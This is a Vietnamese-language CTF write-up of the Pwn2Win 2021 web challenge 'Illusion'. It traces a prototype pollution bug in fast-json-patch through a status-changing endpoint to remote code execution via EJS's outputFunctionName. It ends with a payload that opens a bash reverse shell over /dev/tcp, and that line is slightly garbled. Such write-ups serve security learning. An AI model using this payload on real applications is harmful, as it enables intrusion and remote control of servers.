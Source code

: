 ```yaml
---
layout: page
title: "[WRITEUP PWN2WINCTF 2021]: WEB"
categories: CTF
toc: true
---
```








## Challenge Illusion:
- Source: [illusion](https://github.com/DauHoangTai/CTF/tree/master/2021/Pwn2win/illusion)

### Overview:
- Trang web chỉ hiện thị các service nào đang online và offline nhưng ở đây tất cả đều online. Cấu trúc của folder chứa challenge mà author cung cấp thì chúng ta thấy có file `flag.txt` và `readflag` nhưng nó không được gọi ra ở bất kì đâu => có lẽ phải RCE để thực thi file `readflag`.

### Analysis Source:
- Nhìn vào source thì thấy có 1 endpoint `change_status` là có thể khai thác. 
![image](https://user-images.githubusercontent.com/54855855/121309532-7c888d80-c92c-11eb-8687-73a2225375f0.png)
Ở đoạn code này chương trình nhận input của người dùng thông qua method post sau đó kiểm tra tham số người dùng truyền vào nếu như `service=='status'` thì return về 400, nếu không thì sẽ push vào array path (option ở đây là repace nên sẽ thay thế value của tham số đó luôn chứ không phải thêm vào). Cuối cùng nó sẽ thay đổi các giá trị trong mảng của services (được khai báo ban đầu) bằng các giá trị ở trong mảng pacth và return về sercives đó.
- Ở endpoint `/` thì thấy được nó lấy mảng servirces để render qua file `index.js` mà không hề được lọc đầu vào cùa người dùng.
- File `index.ejs` thì sẽ in ra các value của services.
=> chúng ta có thể dựa vào cách nó in ra thẳng input của người dùng mà không xử lí đầu vào => prototype pollution attack.

### Solution:
- Ở bài này chúng ta không thể gọi prototype như bình thường vì nó bị chặn. Sau khi tìm kiếm thì phát hiện ở thư viện ` fast-json-patch` gần đây có thể tấn công prototype pollution
link: https://github.com/418sec/huntr/pull/768
- Sử dụng nó kèm theo hàm `outputFunctionName` ở trong node js có thể rce
Vậy bây giờ ta chỉ cần sử dụng nó và RCE để lấy flag.

### Payload:
```js
constructor/prototype/outputFunctionName='x; return return global.process.mainModule.constructor._load("child_process").execSync(bash -c "bash -i >& /dev/tcp/host/port 0>&1");'
```

